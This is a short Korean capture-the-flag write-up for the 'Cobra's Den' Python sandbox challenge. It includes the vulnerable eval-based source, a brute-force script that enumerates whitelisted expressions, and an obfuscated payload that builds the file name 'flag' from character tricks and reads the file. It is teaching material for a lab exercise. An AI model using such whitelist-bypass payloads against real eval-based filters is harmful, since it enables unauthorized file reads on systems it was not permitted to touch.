 # Cobra's Den (50 Points)

코드 자체는 아래와 같이 간다하다.
```python
# flag stored at 'flag' in current dir

import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})
print(filtered_builtins)
whitelist = "<ph[(cobras.den)]+~"
security_check = lambda s: any(c not in whitelist for c in s) or len(s) > 1115 or s.count('.') > 1

print('Good luck!')
while True:
    cmd = input("Input: ")
    if security_check(cmd):
        print("No dice!")
    else:
        try:
            eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        except SyntaxError as e:
            print(f"Syntax error: {e}")
        except Exception as e:
            print(f"An error occurred: {e}")
```

정리하면  `whitelist = "<ph[(cobras.den)]+~"`만 만족하는 1115 길이의 문자열을 만들어 `eval`함수에서 실행 가능하도록 `cmd`를 만들어주면 된다.

여기서 생각할 수 있는 것이 `whitelist`에 들어가는 문자열이 많지 않아서 간단하게 아래의 코드를 통해서 가능한 문자열 리스트를 뽑을 수 있다.
```python
import itertools

str_ = "<ph[(cobras.den)]+~"
cmd_list = [''.join(i) for i in list(itertools.product(str_, repeat=6))]

import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})
f = open("cmd_list.txt", "a")
for cmd in cmd_list:
    try:
        eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        f.write(cmd+"\n")
    except:
        continue
f.close()
```
여기서 추출되는 문자열은 아래와 같다
```python
[]
()
chr
ord
abs
...
hash
[[]]
[()]
([])
(())
open
repr
)or(
[chr]
[ord]
[abs]
[...]
[]<[]
[]+[]
(chr)
(ord)
(abs)
(...)
()<()
()+()
)and(



list
tuple
...
```
open, read, chr, ord등 필요한 함수를 확인할 수 있다.
()<()는 False가 나오고 ~False는 -1이 나오니 이를 적절하게 섞어서 payload를 만들어준다.
```python
open(repr(hash)[abs(~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<()))]+repr(hash)[abs(~(()<())+~(()<())+~(()<())+~(()<()))]+repr(hash)[~(()<())+~(()<())+~(()<())+~(()<())]+chr(ord(repr(hash)[abs(~(()<()))])+abs(~(()<())+~(()<())+~(()<())+~(()<())+~(()<())))).read()
```
![alt text](image.png)